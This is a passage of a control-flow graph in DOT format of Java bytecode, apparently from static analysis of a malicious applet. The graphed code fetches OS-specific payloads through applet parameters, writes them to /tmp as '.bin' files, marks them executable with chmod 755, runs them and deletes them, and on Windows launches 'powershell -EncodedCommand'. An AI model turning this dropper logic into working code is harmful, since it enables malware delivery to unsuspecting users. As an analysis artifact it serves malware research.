    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"load.r r77";
    "load.r r77"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "ifcmple.i goto load.r r0"
    "push 3"->"ifcmple.i goto load.r r0";
    "ifcmple.i goto load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"cmd.exe /c \\\"\"";
    "push \"cmd.exe /c \\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \"";
    "push \" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r77";
    "load.r r77"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldput <Java: java.lang.Object initialized>"
    "load.r r0"->"fieldput <Java: java.lang.Object initialized>";
    "fieldput <Java: java.lang.Object initialized>"->"goto return";
    "ifeq load.r r4"->"load.r r4";
    "push \"i\""
    "load.r r4"->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifeq load.r r77";
    "ifeq load.r r77"->"load.r $r48";
    "load.r $r48"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "push 3"->"ifcmple.i load.r r77";
    "ifcmple.i load.r r77"->"new java.lang.ProcessBuilder";
    "new java.lang.ProcessBuilder"->"dup1.r";
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r53";
    "store.r $r53"->"load.r $r53";
    "load.r $r53"->"push 0";
    "push 0"->"push \"cmd\"";
    "push \"cmd\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r53";
    "load.r $r53"->"push 1";
    "push 1"->"push \"/c\"";
    "push \"/c\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r53";
    "load.r $r53"->"push 2";
    "push 2"->"push \"powershell\"";
    "push \"powershell\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r53";
    "load.r $r53"->"push 3";
    "push 3"->"push \"-EncodedCommand\"";
    "push \"-EncodedCommand\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r53";
    "load.r $r53"->"push 4";
    "push 4"->"load.r $r48";
    "load.r $r48"->"arraywrite.r";
    "arraywrite.r"->"load.r $r53";
    "load.r $r53"->"specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"->"virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"->"store.r $r48";
    "store.r $r48"->"load.r $r48";
    "load.r $r48"->"virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r $r48";
    "load.r $r48"->"virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r48";
    "load.r $r48"->"virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "ifcmpge.b staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"/bin/chmod 755 \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"/bin/chmod 755 \"";
    "push \"/bin/chmod 755 \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r75";
    "load.r r75"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean delete()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean delete()>";
    "virtualinvoke <java.io.File: boolean delete()>"->"pop";
    "ifgt load.r r3"->"load.r r3";
    "load.r r3"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.i i0";
    "virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>"
    "load.i i0"->"virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>";
    "goto load.r r1"
    "virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>"->"goto load.r r1";
    "iflt load.r r3"->"load.r r3";
    "push \"mac\""
    "load.r r3"->"push \"mac\"";
    "push \"mac\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r3";
    "iflt load.r r3"->"load.r r0";
    "push \"OSX\""
    "load.r r0"->"push \"OSX\"";
    "push \"OSX\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r76";
    "store.r r76"->"push 1";
    "push 1"->"store.b b17";
    "store.b b17"->"load.r r75";
    "push \"/var/folders/\""
    "load.r r75"->"push \"/var/folders/\"";
    "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"
    "push \"/var/folders/\""->"virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>";
    "ifeq new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"->"ifeq new java.lang.StringBuilder";
    "push \"/tmp/\""
    "ifeq new java.lang.StringBuilder"->"push \"/tmp/\"";
    "push \"/tmp/\""->"store.r r75";
    "store.r r75"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".bin\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".bin\"";
    "push \".bin\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r75";
    "store.r r75"->"goto load.r r76";
    "iflt load.r r3"->"load.r r3";
    "push \"nix\""
    "load.r r3"->"push \"nix\"";
    "push \"nix\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge load.r r0";
    "ifge load.r r0"->"load.r r3";
    "push \"nux\""
    "load.r r3"->"push \"nux\"";
    "push \"nux\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r76"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r76";
    "iflt load.r r76"->"load.r r0";
    "push \"LINUX\""
    "load.r r0"->"push \"LINUX\"";
    "push \"LINUX\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r76";
    "store.r r76"->"push 2";
    "push 2"->"store.b b17";
    "store.b b17"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".bin\"";
    "push \".bin\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r75";
}
